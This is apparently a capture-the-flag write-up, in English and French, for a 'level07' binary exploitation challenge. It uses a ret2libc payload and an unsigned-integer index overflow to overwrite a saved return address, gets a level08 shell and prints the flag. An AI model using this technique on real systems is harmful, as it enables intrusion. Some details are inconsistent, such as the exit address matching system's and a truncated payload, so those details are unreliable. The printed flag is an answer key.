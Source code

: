addr of "/bin/sh" : 0xf7f897ec
addr of system: 0xf7e6aed0
addr of exit: 0xf7e6aed0

Ret2libc code:

```
python -c 'print "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "
```

We need to be able to put this code in a place where it can be executed later on.
Command[20] could allow us to store this ret2libc as the commands are quite short and no check is performed on these adresses

To do so we can first call for a garbage command to prefix our shellcode

```
python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n"'
```

This should allow us to be able to then call "store" command and pass an index without touching to the ret2libc code contained in command[20]

The data we want to store using "store" needs to be put at an index that will be executed.
To do so we can override the address of the plt of a function
-> stack_check_fail : 0x804a010
-> printf : 0x804a000
-> fgets : 0x804a00c

```
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + "<addr of buffer command>"[::-1] + "\n" + "diff between addr of data_storage and printf plt"' ; cat) | ./level07
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + "4294956639" + "\n" + "4160435336"' ; cat) | ./level07
```

We were wrong on the approach as what refers to the plt seems to be inaccessible from our program's dedicated memory. What we need to do instead is to override the EIP execution pointer to make it point towards our exploit. Let's keep going with our method of Ret2libc but in a slightly different way:

system: "0xf7e6aed0" => 4159090384
"/bin/sh": "0xf7f897ec" => 4160264172
addr of buffer: "0xffffd544" =>
addr of eip after store_number: "0xffffd51c" => contient une adresse de main
addr of eip after read_number: "0xffffd51c" => contient une adresse de main
addr of eip at the start of main function: "0xffffd70c" => contient l'adresse de retour apres le main

When exiting a function, the address stored in EIP carries the address of the next executed command.
Depuis le buffer 0xffffd544 on peut aller override ce saved pointer de EIP. Ainsi, quand la fonction main exit, elle sera redirigee vers notre exploit.
0xffffd70c - 0xffffd544 = 456
Etant un tableau d'uint, chaque index avance de 4 octets. Ainsi pour atteindre l'adresse 0xffffd70C on doit ecrire a l'index 456/4 = 114.
114 etant un multiple de 3, on va devoir trouver une astuce (overflow uint)

On doit trouver une valeur suffisament grande pour overflow lorsque multipliee par 4.
uint est compris entre 0 et 2^32 -1
mutliplier par deux revient a bitshift a gauche de 1
2^30 << 2 = 2^32 = 0 (premiere valeur qui overflow)
2^30 = 1073741824
2^30 + 114 = 1073741938
1073741938 \* 4 = 4294967752
4294967752 % 2^32 = 456 Done

-> stocker l'adresse de system a l'adresse 0xffffd70c et l'adresse de "/bin/sh" (index 114) a l'adresse 0xffffd70e (index 116)

Il ne reste plus qu'a quitter la fonction main

```
Input command: store
 Number: 4159090384
 Index: 1073741938 (114 overflown)
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

flag

```
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
